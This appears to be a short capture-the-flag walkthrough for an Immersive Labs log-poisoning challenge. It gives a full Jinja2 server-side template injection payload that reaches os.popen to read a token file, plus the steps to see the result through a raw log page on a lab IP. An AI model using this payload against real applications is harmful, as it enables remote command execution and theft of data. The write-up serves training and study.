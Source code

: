 ```yaml
---
date: 2025-03-15
categories: [CTF, ImmersiveLabs]
title: "IML - Log Poisoning"
tags: ['log poisoning']

description: "Log Poisoning - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Log Poisoning

This is log poisoning and Jinja SSTI

**Reset if you get Internal Server Error**

Register new user

Go to search term and search for "user=admin"
While on that search result page - change the URL to  `http://10.102.122.21/raw/log.txt`

You should be able to view the raw log file now

Go back to search and use the payload:
{% raw %}
```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /tmp/token.txt").read()}}{% endif %}{% endfor %}
```
{% endraw %}

Now search for user=admin again and go to  `http://10.102.122.21/raw/log.txt`

- And we get the token:

![image1](../resources/fb9f93ba8d6645828fcb4124db85d764.png)

<https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6>
